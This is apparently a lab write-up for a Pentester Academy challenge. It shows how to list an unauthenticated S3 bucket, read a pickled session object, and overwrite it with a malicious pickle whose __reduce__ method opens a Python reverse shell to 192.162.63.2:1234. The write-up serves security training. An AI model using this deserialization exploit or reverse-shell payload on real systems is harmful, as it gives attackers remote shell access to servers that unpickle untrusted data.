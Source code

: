 # S3 Python Object Store

Open the lab link and a VNC session will be opened in a new tab with a browser window showing the appication 

![image](https://user-images.githubusercontent.com/46797181/228726011-7eef8812-b4d2-46de-935d-0708fce89a37.png)

Checking the page source, it shows that components are loaded from the s3 bucket 
![image](https://user-images.githubusercontent.com/46797181/228726536-460404e7-c81a-4dd0-a6af-1566d598ced5.png)

Execute the command `aws --endpoint http://s3.pentesteracademylab.appspot.com --no-sign-request s3 ls s3://assets`

#### Note: This challenge is loaded in PT Academy VNC machine, it works only there, using local machine, HTTP 404 will appear 

There is a `sessions` folder, check with `aws --endpoint http://s3.pentesteracademylab.appspot.com --no-sign-request s3 ls s3://assets/sessions/`

The `sessions` directory has a value, log in the web application with the credentials `guest:guest` as stated in the exercise instructions, then repeat the above command and notice that another session object has been created.

![image](https://user-images.githubusercontent.com/46797181/228727892-28109b46-30da-4462-a938-2e5f79a5521e.png)

Interact with the S3 server using boto3 python library and check the content of the recently created object in `sessions` directory.

```

python
import boto3
from botocore import UNSIGNED
from botocore.config import Config
s3=boto3.client('s3',
endpoint_url='http://s3.pentesteracademylab.appspot.com',config=Config(signature_version=UN
SIGNED))
object =
s3.get_object(Bucket='assets',Key='sessions/43085237187070924862845585858148322582')
data=object['Body'].read()
data
import pickle
pickle.loads(data)
```
![image](https://user-images.githubusercontent.com/46797181/228729251-315b2b6e-e439-4819-a53b-863d683a9c00.png)

Create a python script to generate the required pickle payload and overwrite the recently created object in the `sessions` directory.

```
import pickle
import subprocess
import os
import boto3
from botocore import UNSIGNED
from botocore.config import Config
class Shell(object):
def __reduce__(self):
return (os.system,("python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect((\"192.162.63.2\",1234)); os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'&",))
s3=boto3.client('s3',endpoint_url='http://s3.pentesteracademylab.appspot.com',config=Config(signature_version=UNSIGNED))
pickledData=pickle.dumps(Shell())
s3.put_object(Bucket='assets',Key='sessions/43085237187070924862845585858148322582',Body=pickledData)


```






